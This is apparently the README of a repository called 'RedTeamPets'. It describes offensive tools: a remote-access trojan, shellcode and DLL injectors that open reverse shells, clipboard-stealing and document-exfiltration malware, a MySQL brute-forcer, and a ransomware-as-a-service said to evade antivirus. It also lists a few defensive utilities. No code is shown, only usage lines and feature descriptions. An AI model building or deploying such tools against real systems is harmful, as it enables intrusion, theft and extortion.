 # RedTeamPets
A collection of handy and specific tools for the Red Teamer

PLEASE USE WISELY AND FOR RESEARCH PURPOSES ONLY. I AM NOT RESPONSIBLE FOR ANY MALICIOUS ACTIONS PERFORMED BY USING MY CODES MALICIOUSLY AS IT'S ORIGINAL FORM OR MODIFIED.

__________________________________________________________________________________________________________________________________________________________________


ConvinientRAT:

An Interactive CLI RAT made with Python, that has basic features such as:
Exfiltration,
Persistence,
Privilage Esclation,
Standard Shell,
Nishang Shell,
Credential Dumping,
Mimikatz,
Information gathering,
Downloader

Usage: Start the Server, Launch the client from victim on the same IP and PORT of the server. Rest, A help menu is available on the server itself. Feature updates may continue in the future.


R3dJ0hn:

A C program to inject Single-Stage shellcode into the memory of another running process. It first scans through all the running processes and matches a set of pre-mentioned process names. It tries to acquire an handle to each of them and stops it it gets it.
Then injects a custom shellcode into the memory, thus giving a reverse shell back to the adversary and later on adds registry startup key for persistence. Long sleep timer induced to induce confusion of the blue teamer over the other side.
The project needs to be built each time for each purpose.


Split Drop in Mem:

Another process injector but made with Python that has a dropper built within. The Host.py needs to be run with a 64 bit Single-Stage reverse shell.exe. Example: python host.py reverse_sh.exe. This exe file will be converted to shellcode via Donut and then then encrypted and hosted over HTTP.
Once, the dropper is launched from the victim PC (python drop.py IP:PORT), the encrypted file, KEY and IV will be downloaded. Then the shellcode will be decrypted and injected into python's own memory, thus giving a remote shell back to the adversary.


WinProcInjDLL:

Another process injector made with C, but this time a DLL will be injected instead of a shellcode. The DLL can be made by say MSFVenom.
The DLL has to be hosted via HTTP as payload.dll (Static Naming Convention), and then the C program to be compiled and launched in the victim PC as filename.exe http://IP:PORT/payload.dll. The DLL will be downloaded and injected into Notepad (Can be changed before compilation), Thus giving a reverse shell back to the adversary.


BruteMysql:

A simple wordlist based MySQL Bruteforce program in python. Nothing fancy.


ClipWatch:

A python malware that is programmed to launch from Admin. Creates Persistence via Registry and Scheduled tasks.
It runs periodically and watches the clipboard for data. As it captures the data, it collects it and writes to a file in the same directory. This file could be later exfiltrated. In the future, a Call back home feature could be implemented to upload the data directly onto a server.


Dump VirusShare:

(Blue Team): If one has a special access to VirusShare then this app can't help but if not, This tool will crawl the whole hash directory of VirusShare.com and write a CSV file with all the hashes possible. This will be benefical to Blue teamers often. Though the process is time consuming, but still 100 times faster than the manual approach.


Invoke-Adversary 2022:

Nothing original but Invoke-Adversary already exists in GitHub that is quite used by security companies to demonstrate red team simulation to the clients. Only problem is the original is old and runs on commands and cmdlets from old powershell versions. I have just morphed it to be used with the current powershell version of 2022.


Xfiltrator:

An exfiltration malware made with Python that connects back to an FTP server created by the adversary and it eventually downloads all document based files present within the victim PC. 
Usage: python xfiltrator.py FTP_IP FTP_Username FTP_password


bofhelper:

Another Python based tool that basically helps to find the IP offset during a Buffer Overflow simulation. I have made this for myself once when I was learning to BOF. Best thing about it is you don't have to memorize commands. The whole thing is made interactive.


Eyeris:

(Blue Team): A Python based tool that when provided a PID of an administrative CMD, acts as a task manager but only for that one process.
This is benificial for understanding process flow of malwares so that a pattern can be extracted and an EDR custom query could be built for obvious reasons. This feature is by default present in EDRs but ofcourse personally no one has red team simulation access for research purposes except people working in the EDR company. Anyways
Usage:
Provide a PID from a CMD.
Run a sample malware from the same CMD.
Quit the CMD once it's activities are over.
This program will generate a Tree-Node structure JSON, that can be analyzed and referenced for building the custom EDR queries.


Outis, A ransomware as a service.

A Dedicated Ransomware with it's own C2 and parmanent sleep that only works on instruction from C2. Currently undetected with AV that remains unnamed.
Instructions, Codes, Usage are separately written on the Documentation.txt file.
